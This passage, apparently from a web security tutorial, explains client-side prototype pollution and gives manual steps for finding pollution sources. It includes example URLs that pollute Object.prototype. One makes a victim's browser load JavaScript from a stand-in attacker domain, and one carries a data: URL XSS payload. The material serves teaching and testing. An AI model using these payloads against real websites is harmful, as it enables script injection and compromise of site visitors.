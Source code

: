 ```
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```

If the website's developers haven't set a `transport_url` property on their config object, this is a potential gadget

In cases where an attacker is able to pollute the global Object.prototype with their own `transport_url` property, this will be inherited by the config object and, therefore, set as the src for this script to a domain of the attacker's choosing.

If the prototype can be polluted via a query parameter, for example, the attacker would simply have to induce a victim to visit a specially crafted URL to cause their browser to import a malicious JavaScript file from an attacker-controlled domain


```
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
```

 By providing a data: URL, an attacker could also directly embed an XSS payload within the query string as follows:

```
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
```
Note that the trailing // in this example is simply to comment out the hardcoded /example.js suffix. 


## Finding client-side prototype pollution sources manually

Finding prototype pollution sources manually is largely a case of trial and error. In short, you need to try different ways of adding an arbitrary property to `Object.prototype` until you find a source that works.

When testing for client-side vulnerabilities, this involves the following high-level steps


1. Try to inject an arbitrary property via the query string, URL fragment, and any JSON input. For example: 

```
vulnerable-website.com/?__proto__[foo]=bar 
```
2. In your browser console, inspect `Object.prototype` to see if you have successfully polluted it with your arbitrary property: 

```
Object.prototype.foo
// "bar" indicates that you have successfully polluted the prototype
// undefined indicates that the attack was not successful
```
3. If the property was not added to the prototype, try using different techniques, such as switching to dot notation rather than bracket notation, or vice versa: 
```
vulnerable-website.com/?__proto__.foo=bar
```
4. Repeat this process for each potential source.
